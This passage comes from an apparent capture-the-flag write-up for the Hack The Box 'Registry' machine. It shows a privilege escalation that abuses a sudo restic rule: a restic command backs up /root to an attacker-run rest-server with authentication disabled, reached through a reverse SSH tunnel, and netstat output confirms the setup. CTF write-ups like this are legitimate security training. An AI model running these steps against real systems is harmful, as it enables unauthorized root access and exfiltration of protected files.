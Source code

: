 Looks like we have a potential attack vector.

![](https://i.imgur.com/b2RVGBj.png)

Nevermind, its most definately the attack vector. If its on gtfobins, we are pretty much at the finish line.

`sudo /usr/bin/restic backup -r "rest:http://127.0.0.1:6969" ""/root"`

This is the command I need to run according to GTFObins. The command backs up data from the second parameter to the remote hosted restic server. This means I need to setup my own restic server for this to connect to. 



> Remember, we can't connect to our machine because it drops non-local packets
{: .prompt-warning }


`rest-server/rest-server --no-auth --listen 127.0.0.1:6969`
```
Data directory: /tmp/restic                         
Authentication disabled 
Private repositories disabled
start server on 127.0.0.1:6969
```
Server is now setup but now we need to address the firewall rule. It is possible to do a REVERSE or remote tunnel from our machine to the victim machine. I've done local port forwarding to reach a local ports on the victim but not the reverse. Here's the command:

`ssh -i id_rsa bolt@registry.htb -R 6969:localhost:6969`

And to check if its working:

`netstat -tlpn`

```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6969          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -                   
tcp        2      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      14649/nc            
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:6969                :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -
```
